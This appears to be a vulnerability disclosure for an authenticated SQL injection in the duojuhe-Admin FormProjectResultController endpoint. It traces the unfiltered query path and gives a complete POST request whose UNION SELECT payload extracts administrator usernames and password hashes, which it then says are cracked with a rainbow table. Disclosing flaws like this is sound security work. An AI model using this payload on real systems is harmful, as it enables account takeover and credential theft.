










# The FormProjectResultController API of duojuhe-Admin has a background SQL injection vulnerability.

duojuheAdmin version: <= v1.0.2 vulnerable to background SQL injection attacks, allowing attackers to obtain the account password information of the super administrator through low-privilege users.


Step 1:Locate `com.duojuhe.coremodule.form.service.impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` and discover this function SQL statements are spliced without any filtering.




Step 2:After joining together the SQL statements directly call `com.Duojuhe.Coremodule.Form.Mapper.FormProjectResultMapper#queryFormProjectResultPageResList` SQL query interfaces.






Setp 3:The lookup function `com.Duojuhe.Coremodule.Form.Service.Impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` is referenced within the function `com.Duojuhe.Coremodule.Form.Controller.FormProjectResultController#queryFormProjectResultPageResList`. Additionally, the route request to `/sysAdmin/formProjectResult/queryFormProjectResultPageResList` is analyzed, with the request method being specified as `POST`.




Step 4:To verify the vulnerability, first authenticate using the low-privilege user account "yunying1". Capture the HTTP request packet to extract the token from the request header and substitute it with the token in the payload packet. Subsequently, transmit the payload and inspect the response data packet. As a result, the account and password information of the super administrator were successfully retrieved from the response data.

Payload:

```
POST /sysAdmin/formProjectResult/queryFormProjectResultPageResList HTTP/1.1
Host: example.com
Content-Length: 317
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
token: SYSTEM_ADMIN6bdf3c67541180d1d111f24c12947d1f18d740d4a95668c9e03369c3c3b429e7
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.3.11:1024
Referer: http://192.168.3.11:1024/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"projectId":"111","extParams":"{\"like\":\"aaa' UNION ALL SELECT login_name,password,user_type_code,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from system_user-- a\"}","extComparisons":"{\"like\":\"like\"}","startTime":"2025-04-01","endTime":"2025-04-02","statusCode":"","page":1,"rows":9}
```

1.Log in to an ordinary user to get a token.





2.Replace token and send payload.





3.Get the password clear text of the super administrator through the rainbow table and log in successfully.




